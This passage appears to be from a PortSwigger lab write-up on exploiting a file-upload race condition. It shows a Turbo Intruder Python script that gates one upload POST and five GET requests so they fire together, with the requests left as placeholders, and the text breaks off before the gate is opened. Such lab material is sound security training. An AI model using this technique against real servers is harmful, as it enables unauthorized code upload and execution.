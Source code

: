 I'll also need to upload an image that actually gets accepted by the server, so that it will generate a request to the `GET /files/avatars/<filename>` when I refresh the `My Account` page. I'll use this request as part of my payload in the `Turbo Intruder`. 

![upload actual image](/docs/assets/images/portswigger/fileupload/fu63.png)

The default code within the `Turbo Intruder` should be replaced with the following python script: 

``` 
def queueRequests(target, wordlists): 

    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,) 
  
    request1 = '''<YOUR-POST-REQUEST>''' 
  
    request2 = '''<YOUR-GET-REQUEST>''' 
 

    # the 'gate' argument blocks the final byte of each request until openGate is invoked 
    engine.queue(request1, gate='race1') 
    for x in range(5): 
        engine.queue(request2, gate='race1') 

    # wait until every 'race1' tagged request is ready 

 # then send the final byte of each request 

    # (this method is non-blocking, just like queue) 
```